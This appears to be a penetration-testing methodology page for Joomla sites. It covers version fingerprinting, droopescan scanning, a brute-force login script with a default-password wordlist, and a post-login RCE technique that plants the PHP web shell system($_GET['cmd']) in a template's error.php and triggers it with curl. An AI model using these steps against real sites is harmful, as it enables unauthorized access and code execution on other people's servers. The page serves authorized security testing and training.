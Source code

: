 # Joomla



### Joomla Statistics

Joomla collects some anonymous [usage statistics](https://developer.joomla.org/about/stats.html) such as the breakdown of Joomla, PHP and database versions and server operating systems in use on Joomla installations. This data can be queried via their public [API](https://developer.joomla.org/about/stats/api.html).

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
    "data": {
        "cms_version": {
            "3.0": 0,
            "3.1": 0,
            "3.10": 6.33,
            "3.2": 0.01,
            "3.3": 0.02,
            "3.4": 0.05,
            "3.5": 12.24,
            "3.6": 22.85,
            "3.7": 7.99,
            "3.8": 17.72,
            "3.9": 27.24,
            "4.0": 3.21,
            "4.1": 1.53,
            "4.2": 0.82,
            "4.3": 0,
            "5.0": 0
        },
        "total": 2951032
    }
}
```

## Enumeration

### Discovery/Footprinting

* Check the **meta**

```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

* robots.txt

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```

* README.txt

```
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```

### Version

* In **/administrator/manifests/files/joomla.xml **_**** you can see the version._
* In **/language/en-GB/en-GB.xml** you can get the version of Joomla.
* In **plugins/system/cache/cache.xml** you can see an approximate version.

### Automatic

```bash
droopescan scan joomla --url http://joomla-site.local/
```

In[ **80,443 - Pentesting Web Methodology is a section about CMS scanners**](./#cms-scanners) that can scan Joomla.

### Brute-Force

You can use this [script](https://github.com/ajnik/joomla-bruteforce) to attempt to brute force the login.

```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 
admin:admin
```

## RCE

If you managed to get **admin credentials** you can **RCE inside of it** by adding a snippet of **PHP code** to gain **RCE**. We can do this by **customizing** a **template**.

1. **Click** on **`Templates`** on the bottom left under `Configuration` to pull up the templates menu.
2. **Click** on a **template** name. Let's choose **`protostar`** under the `Template` column header. This will bring us to the **`Templates: Customise`** page.
3. Finally, you can click on a page to pull up the **page source**. Let's choose the **`error.php`** page. We'll add a **PHP one-liner to gain code execution** as follows:
   1. **`system($_GET['cmd']);`**
4. **Save & Close**
5. `curl -s http://joomla-site.local/templates/protostar/error.php/error.php?cmd=id`


